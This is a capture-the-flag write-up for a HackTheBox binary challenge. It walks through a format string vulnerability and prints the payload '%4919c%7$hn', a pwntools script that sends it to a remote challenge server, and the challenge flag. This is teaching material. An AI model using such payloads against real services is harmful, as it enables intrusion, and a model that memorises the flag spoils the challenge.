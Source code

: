 # Space pirate: Entrypoint
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8d0e934c-1e1d-42c5-af08-078685d7ac78)

## Lessons Learned:
1. Stack-Based Exploitation.
2. Exploiting FSB.
3. Utilizing FSB to overwrite local variable.

## DESCRIPTION:
D12 is one of Golden Fang's missile launcher spaceships. 
Our mission as space pirates is to highjack D12, get inside the control panel room, and access the missile launcher system. 
To achieve our goal, we split the mission into three parts. In this part, all we need to do is bypass the scanning system and open the gates so that we proceed further.

## STEPS:
1. First, unzip the `.zip` file given, then jump to the extracted directory.

> INSIDE

![image](https://user-images.githubusercontent.com/70703371/209463673-48df0692-e65e-4194-9ae2-be80e6856bad.png)


2. Check the file type.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209463681-989c4cff-3dce-494f-8d61-6c1af86af3b0.png)


3. Check the binary's protection.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209463703-79b1a4cc-5ea0-4fc3-843a-43fa24c83d93.png)


4. All protection's enabled.
5. Hmmm.. Let's run the file in gdb.

![image](https://user-images.githubusercontent.com/70703371/209463724-cccbe67c-76a5-4079-a654-ab8fbd6c2f50.png)


![image](https://user-images.githubusercontent.com/70703371/209463733-669e653f-1a16-486d-aea7-6c75b5fda4d0.png)


![image](https://user-images.githubusercontent.com/70703371/209463740-66d11232-6398-4630-97fb-694386ace618.png)


6. Let's decompile the binary using ghidra.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209463764-7578b83f-2012-4a18-a860-9cd436c81d04.png)


7. It looks like we can utilize format string vulnerability here.

![image](https://user-images.githubusercontent.com/70703371/209463825-73020a6a-1121-4f06-b952-89b128fd1c18.png)


8. If the `local_48` value is eq to **0xdead1337**, then the program will execute the `open_door()` function.

![image](https://user-images.githubusercontent.com/70703371/209464871-10f1ddb4-a41c-4c9e-a2fb-739ecd578909.png)


> OPEN_DOOR -> a function that will give us the flag

![image](https://user-images.githubusercontent.com/70703371/209464882-b49cc0c9-9fe2-4d8d-bc05-2990568f0c99.png)


9. However, the `local_48` value is **0xdeadbeef** not **0xdead1337**.
10. Remember that the `local_40` saves the address of `local_48`.

![image](https://user-images.githubusercontent.com/70703371/209464944-a52ddd88-f28b-4a61-9b7e-44168631a5b6.png)


11. Hence, we can utilize format string vuln to overwrite the first 2 bytes of `local_48` value.
12. Now run, the binary, choose option 1, then input 8 %p.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/209465122-13eeff3b-e788-42f4-b77f-918d3e41b354.png)


13. Based from the output, we know that **0xdeadbeef** is at offset 6 and **0xdead1337** is at offset 7. 
14. Get the decimals value of **0x1337** -> `4919`.
15. Means the input shall look like this -> `%4919c%7$hn`.
16. To make it clear:

```
"%" indicates the start of a format specifier in a format string.
"4919" decimal value of 0x1337.
"c" is a conversion specifier that indicates the value to be printed as a character.
"%7$" is a positional specifier that specifies the argument index to be printed. In this case, it refers to the seventh argument.
"hn" is a length modifier that specifies that the argument should be interpreted as a short integer and printed as a halfword (2 bytes) in a specific format.
```

17. To get the flag, actually u don't need to make the script, but i just want to make it 😁

> THE SCRIPT

```py
from pwn import *
import os

os.system('clear')
context.log_level = 'debug'
sh = remote('142.93.37.215', 30803)
sh.recvuntil("> ")
sh.sendline(b'1')
sh.recvuntil(": ")
A = b'%4919c%7$hn'
sh.sendline(A)
sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/209465379-85f5adb9-1aa3-4ccd-9e8d-1163907fe90f.png)


18. Got the flag!

## FLAG

```
HTB{g4t3_0n3_d4rkn3e55_th3_w0rld_0f_p1r4t35}
```

